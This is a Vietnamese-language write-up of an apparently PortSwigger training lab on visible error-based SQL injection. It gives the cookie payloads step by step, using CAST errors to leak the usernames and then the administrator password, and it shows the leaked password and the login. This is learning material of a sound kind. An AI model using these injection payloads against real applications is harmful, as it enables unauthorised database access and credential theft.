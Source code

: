 # Write-up: Visible error-based SQL injection

### Tổng quan
Ghi lại quá trình khai thác SQL injection dựa trên lỗi hiển thị (error-based) để lấy mật khẩu `administrator` và đăng nhập vào hệ thống.

### Mục tiêu
- Lấy mật khẩu `administrator` và đăng nhập vào hệ thống.

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=P4jmMuXY5V7FT1yM'
    ```
    - **Kết quả**: lỗi do dấu `'` được trả về
        ![lỗi](./images/error.png)
    - Thêm dấu comment `--` để xác nhận lỗi không còn xuất hiện
        ```
        TrackingId=P4jmMuXY5V7FT1yM'-- 
        ```
        ![không lỗi](./images/x_error.png)

- Ép kiểu dữ liệu để xem lỗi được trả về 
    ```
    TrackingId=P4jmMuXY5V7FT1yM' AND CAST((SELECT 1) AS int)--
    ```
    - **Kết quả**: xác nhận lỗi
        ![cast](./images/cast_error.png)

- Thêm điều kiện của boolean rồi gửi lại để xác nhận truy vấn hợp lệ
    ```
    TrackingId=P4jmMuXY5V7FT1yM' AND 1 = CAST((SELECT 1) AS int)--
    ```
    -**Kết quả**: truy vấn hợp lệ

- Kiểm tra user `administrator` có tồn tại không
    ```
    TrackingId=P4jmMuXY5V7FT1yM' AND 1 = CAST((SELECT username FROM users) AS int)--
    ```
    - **Kết quả**: Câu truy vấn của hệ thống có giới hạn kí tự
        ![giới hạn](./images/limit.png)

- Xóa id rồi gửi lại
    ```
    TrackingId=' AND 1 = CAST((SELECT username FROM users) AS int)--
    ```
    - **Kết quả**: xuất hiện lỗi nhiều hơn 1 dòng trả về 
        ![dòng](./images/limit_row.png)

- Gửi lại với LIMIT 1 để truy vấn trả về 1 dòng
    ```
    TrackingId='AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
    ```
    - **Kết quả**: tồn tại user `administrator` ở dòng 1
        ![admin](./images/exist_admin.png)


2. **Tạo payload**
- Tạo payload để leak mật khẩu user `administrator` qua thông báo lỗi truy vấn
    ```
    TrackingId='AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
    ```
    - **Kết quả**: lấy được mật khẩu `wj5blchqmmgeqqyvxg6l`

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`wj5blchqmmgeqqyvxg6l`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
     ![login](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi lỗi có thể nhìn.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.
